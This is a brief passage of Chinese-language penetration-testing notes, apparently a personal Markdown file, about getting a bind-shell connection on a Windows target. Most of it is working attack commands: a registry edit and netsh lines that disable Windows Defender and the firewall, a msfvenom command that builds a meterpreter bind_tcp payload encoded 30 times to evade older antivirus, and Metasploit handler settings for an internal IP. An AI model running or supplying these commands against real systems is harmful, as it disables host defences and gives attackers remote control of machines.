 ![](img/Snipaste_2022-02-22_22-57-30.png)





不知道什么原因老断开  不得不放弃





### 2.正向连接：

```powershell
#关闭Windows defend杀毒软件
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /d 1 /t REG_DWORD /f
```

```
关闭防火墙：netsh firewall set opmode mode=disable
关闭防火墙： netsh advfirewall set allprofiles state off
查看防火墙状态： netsh advfirewall show allprofiles
```



目标机器有比较老的杀软 关不掉，编码30次即可绕过   （如果是最新的杀软百分百绕不过去）

```
msfvenom -p windows/meterpreter/bind_tcp lport=6666  -e x86/shikata_ga_nai -i 30 -f exe -o bind.exe
set payload windows/meterpreter/bind_tcp
set rhost 10.0.20.99
set lport 5555
run
```

如果生成的木马还是被杀 

![](img/Snipaste_2022-01-31_02-42-45.png)
